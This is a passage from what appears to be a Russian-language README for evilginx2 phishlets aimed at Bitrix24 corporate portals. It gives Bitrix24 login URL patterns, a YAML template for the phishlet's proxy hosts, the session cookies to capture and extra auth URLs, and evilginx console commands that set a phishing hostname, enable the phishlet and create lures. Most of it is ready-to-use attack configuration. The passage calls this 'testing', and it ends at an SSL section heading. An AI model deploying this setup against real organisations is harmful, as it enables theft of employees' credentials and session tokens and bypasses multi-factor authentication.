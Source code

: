### URL-паттерны:
- `/index.php?login=yes` - Основная страница входа
- `/auth/` - Альтернативная авторизация
- `/bitrix/tools/oauth/` - OAuth авторизация

## 🛠️ Расширенная настройка

### Редактирование phishlet

```bash
# Открыть phishlet для редактирования
sudo nano /root/evilginx2-data/phishlets/bitrix24-keydisk.yaml
```

### Основные параметры для изменения:

```yaml
# Изменить домен цели
proxy_hosts:
  - {domain: 'your-target.bitrix24.ru', session: true, is_landing: true}

# Добавить дополнительные cookies
auth_tokens:
  - domain: '.your-target.ru'
    keys: ['CUSTOM_SESSION', 'USER_TOKEN']

# Дополнительные URL авторизации
auth_urls:
  - '/custom-login/'
  - '/sso/'
```

## 🎯 Примеры использования

### 1. Тестирование корпоративного Bitrix24

```bash
evilginx> phishlets hostname bitrix24-universal company.bitrix24.ru
evilginx> phishlets enable bitrix24-universal
evilginx> lures create bitrix24-universal
evilginx> lures edit 0 redirect_url https://company.bitrix24.ru/crm/
```

### 2. Тестирование с поддоменом

```bash
evilginx> phishlets hostname bitrix24-keydisk phishing-test.com
evilginx> lures create bitrix24-keydisk  
evilginx> lures edit 0 path /login
```

### 3. Использование с SSL

